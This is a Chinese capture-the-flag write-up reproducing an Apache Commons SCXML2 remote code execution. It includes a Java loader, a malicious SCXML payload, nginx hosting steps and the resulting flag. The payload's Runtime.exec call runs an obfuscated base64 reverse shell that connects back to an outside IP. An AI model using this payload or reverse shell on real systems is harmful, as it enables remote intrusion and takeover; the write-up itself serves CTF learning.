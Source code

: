 # [HDCTF 2023]BabyJxVx 复现

## 知识点

>   Apache SCXML2 RCE	可以通过加载恶意xml文件实现RCE

>   主要加载恶意xml方式：`SCXMLReader.read()`方法

```java

import org.apache.commons.scxml2.SCXMLExecutor;
import org.apache.commons.scxml2.io.SCXMLReader;
import org.apache.commons.scxml2.model.ModelException;
import org.apache.commons.scxml2.model.SCXML;

import javax.xml.stream.XMLStreamException;
import java.io.IOException;

public class POC {
    public static void main(String[] args) throws ModelException, XMLStreamException, IOException {

        // 创建 scxml 实例
        SCXMLExecutor executor = new SCXMLExecutor();
        // 将 SCXML URL 解析为 SCXML 模型
        SCXML scxml = SCXMLReader.read("http://127.0.0.1:8000/1.xml");

        // 设置状态机（scxml实例）执行
        executor.setStateMachine(scxml);
        executor.go();

    }
}
```

参考文章：https://www.yuque.com/boogipop/okvgcs/zzx3n35xsg26ss0e?view=doc_embed

**playload：**

```xml
<?xml version="1.0"?>
<scxml xmlns="http://www.w3.org/2005/07/scxml" version="1.0" initial="run">
    <final id="run">
        <onexit>
            <assign location="flag" expr="''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTIuMTI0LjUyLjIwMC8yMDAwMCAwPiYx}|{base64,-d}|{bash,-i}')"/>
        </onexit>
    </final>
</scxml>
```

>   将上面的文件放在服务器上，并设置对外可访问

```nginx
设置服务器文件对外开放方法：
	# 阿里云轻量级服务器方法
	1、防火墙开放端口
	2、服务器中开放端口
	3、添加nginx配置
		cd /etc/nginx/sites-enabled/		
	4、vim test.conf
	# 输入以下
    server {
        listen 9999;
        listen [::]:9999;

        server_name 112.124.52.200;

        location / {
            root /var/www/expose;

        }
    }
	5、测试语法正确然后重新加载配置文件
	nginx -t
	systemctl reload nginx.service
```



>   原题访问：`http://node4.anna.nssctf.cn:28045/Flag?filename=http://服务器地址:7777/poc.xml`
>
>   服务器开启端口监听，触发shell，输入命令获取flag

```nginx
root@4d0d39411c944bf6:/# cat /flag_*
cat /flag_*
NSSCTF{51e9c540-eb7d-4349-8ee0-c83c995cba99}
```

